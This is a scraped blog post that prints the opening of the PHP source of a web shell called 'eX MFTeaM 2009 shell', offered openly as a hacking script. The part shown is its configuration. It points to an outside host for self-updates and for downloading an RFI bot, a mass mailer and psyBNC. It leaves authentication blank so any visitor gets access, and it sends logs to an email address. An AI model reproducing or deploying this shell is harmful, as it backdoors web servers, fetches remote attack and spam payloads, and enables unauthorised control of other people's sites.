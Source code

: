 ```yaml
---
id: 305
title: eX MFTeaM 2009 shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=305
permalink: /ex-mfteam-2009-shell/
categories:
  - PHP
tags:
  - eX MFTeaM
  - PHP
---
```

eX MFTeaM 2009 shell by By FakoMast3r, CopyRight MFTeaM.

## eX MFTeaM 2009 shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
#######################################
## eX MFTeaM 2009                    ##
define('sh_ver'," By FakoMast3r");           ##
##    CopyRight MFTeaM               ##
##     irc.midnightcr3w.com           ##
##    chan #midnightcr3w                       ##
#######################################
$sh_name = sh_name();                ##
#######################################
#$sh_mainurl        = "http://www.jemcknight.plus.com/";
$sh_mainurl        = "http://www.jemcknight.plus.com/";
$exsh_updateurl  = $sh_mainurl."exsh_update.php";
$exsh_sourcesurl = $sh_mainurl."exsh.txt";
$sh_sourcez = array(
 "Rfi-Bot"   =&gt; array($sh_mainurl."ssess_0296317ca2b10940f6c11c59805b4dde"),
  "Mass Mailer"   =&gt; array($sh_mainurl."libyex.php"),
  "exSh"   =&gt; array($sh_mainurl."exsh.txt"),
  "psyBNC"   =&gt; array($sh_mainurl."psy.tar.gz"),
);
##[ AUTHENTICATION ]##
$auth = array(
  "login"     =&gt; "",
  "pass"      =&gt; "",
  "md5pass"   =&gt; "",
  "hostallow" =&gt; array("*"),
  "denied"    =&gt; "&lt;a href=\"$sh_mainurl\"&gt;".$sh_name."&lt;/a&gt;: access denied!",
);
##[ END AUTHENTICATION ]##
$curdir = "./";
$tmpdir = "";
$tmpdir_logs = "./";
$log_email = "edwis@live.com"; #Email logna
$sess_cookie = "exshcook";
$sort_default = "0a"; #Pengurutan, 0 - nomor kolom. "a"scending atau "d"escending
$sort_save = TRUE; #Simpan posisi pengurutan menggunakan cookies.
$usefsbuff = TRUE;
$copy_unset = FALSE; #Hapus file yg telah di-copy setelah dipaste
$surl_autofill_include = TRUE;
$updatenow   = FALSE;